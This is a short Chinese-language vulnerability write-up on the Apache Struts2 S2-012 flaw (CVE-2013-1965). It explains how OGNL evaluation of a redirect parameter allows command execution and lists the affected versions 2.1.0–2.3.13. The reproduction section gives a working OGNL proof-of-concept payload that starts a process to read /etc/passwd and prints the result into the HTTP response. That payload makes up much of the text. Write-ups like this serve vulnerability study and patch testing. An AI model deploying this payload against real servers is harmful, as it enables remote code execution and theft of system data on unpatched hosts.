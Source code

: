 （CVE-2013-1965）s2-012
=======================

一、漏洞简介
------------

> 如果在配置 Action 中 Result 时使用了重定向类型，并且还使用
> \${param\_name} 作为重定向变量，例如：

    <package name="S2-012" extends="struts-default">
        <action name="user" class="com.demo.action.UserAction">
            <result name="redirect" type="redirect">/index.jsp?name=${name}</result>
            <result name="input">/index.jsp</result>
            <result name="success">/index.jsp</result>
        </action>
    </package>

这里 UserAction 中定义有一个 name 变量，当触发 redirect
类型返回时，Struts2 获取使用 \${name} 获取其值，在这个过程中会对 name
参数的值执行 OGNL 表达式解析，从而可以插入任意 OGNL 表达式导致命令执行。

二、漏洞影响
------------

2.1.0 - 2.3.13

三、复现过程
------------

### poc

图片.png

    %{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"cat", "/etc/passwd"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
